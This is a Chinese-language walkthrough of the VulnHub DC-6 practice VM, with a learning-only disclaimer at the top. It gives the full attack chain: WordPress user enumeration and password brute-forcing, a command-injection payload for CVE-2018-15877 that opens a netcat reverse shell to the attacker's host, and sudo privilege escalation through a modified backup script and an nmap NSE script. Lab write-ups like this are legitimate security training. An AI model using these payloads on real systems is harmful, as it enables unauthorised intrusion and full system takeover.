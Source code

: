 # DC6-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-6,315/

**Description**

DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

This isn't an overly difficult challenge so should be great for beginners.

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

**Technical Information**

DC-6 is a VirtualBox VM built on Debian 64 bit, but there shouldn't be any issues running it on most PCs.

I have tested this on VMWare Player, but if there are any issues running this VM in VMware, have a read through of this.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox or VMWare and away you go.

NOTE: You WILL need to edit your hosts file on your pentesting device so that it reads something like:

`192.168.0.142 wordy`

NOTE: I've used 192.168.0.142 as an example. You'll need to use your normal method to determine the IP address of the VM, and adapt accordingly.

This is VERY important.

And yes, it's another WordPress based VM (although only my second one).

**Clue**

OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

`cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt` That should save you a few years. ;-)

**知识点**
- worpress 插件漏洞利用 (中期)
- 利用 nmap 提权 (后期)

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC6/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.140` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.140
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC6/2.png)

一个 SSH 一个 web,先从 web 入手

按照信息修改主机 hosts 文件

修改 kali hosts 文件
```bash
echo "192.168.141.140 wordy" >> /etc/hosts
```

访问 web,发现是个 wordpress 搭建的网站

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC6/3.jpg)

按照之前 DC2 的经验来,上 wpscan 扫他一波
```bash
wpscan --url http://wordy --enumerate u
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC6/4.png)

发现几个用户,尝试爆破弱口令,上了 TOP100 没爆出来,回过头来一看作者给了提示
```
gunzip rockyou.txt.gz
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

估计这玩意就是钦定的字典了，爆破
```
wpscan --url http://wordy --passwords passwords.txt
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC6/5.png)

跑出一个 mark
```
Username: mark
Password: helpdesk01
```

登录 http://wordy/wp-login.php ,发现一个插件 activity monitor

---

# 中期-漏洞利用

之前用 wpscan 顺便扫了下漏洞,并没有可以 RCE 的,那么这里猜测可能从这个插件入手,直接搜到一个编号为 CVE-2018-15877 的相应漏洞

kali 监听
```
nc -nlvp 4444
```

burp 抓包利用
```
127.0.0.1| nc -e /bin/sh 192.168.141.134 4444
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC6/6.png)

成功弹回

---

# 后期-提权

升级下 shell
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC6/7.png)

www 用户下啥也没有，tmp 空的，看了下 passwd 有几个 wordpress 一样的用户,拿 helpdesk01 测试了下几个用户都登不上去,顺便翻了下他们的家目录,mark 和 jens 都有东西

```bash
ls /home/graham
ls /home/mark
ls /home/sarah
ls /home/jens
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC6/8.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC6/9.png)

可以，直接给了我 graham 账号密码,登上去,然后继续查看

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC6/10.png)

看样子只是个备份脚本,但是没有权限运行,暂放一边,查看下能提权的东西把
```
sudo -l
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC6/11.png)

巧了，这个正好可以用 jens sudo 运行,那修改这个脚本来获取 jens 的 shell 试试
```
echo "/bin/sh" >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
whoami
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC6/12.png)

切换成功,jens 下在看看有啥能提权的
```bash
sudo -l
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC6/13.png)

看着着熟悉的4个字母,不禁露出了猥琐的笑容
```bash
echo 'os.execute("/bin/sh")' > /tmp/root.nse
cat /tmp/root.nse
sudo nmap --script=/tmp/root.nse
whoami
cd /root
cat *
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC6/14.png)

提权成功,感谢靶机作者 @DCUA7
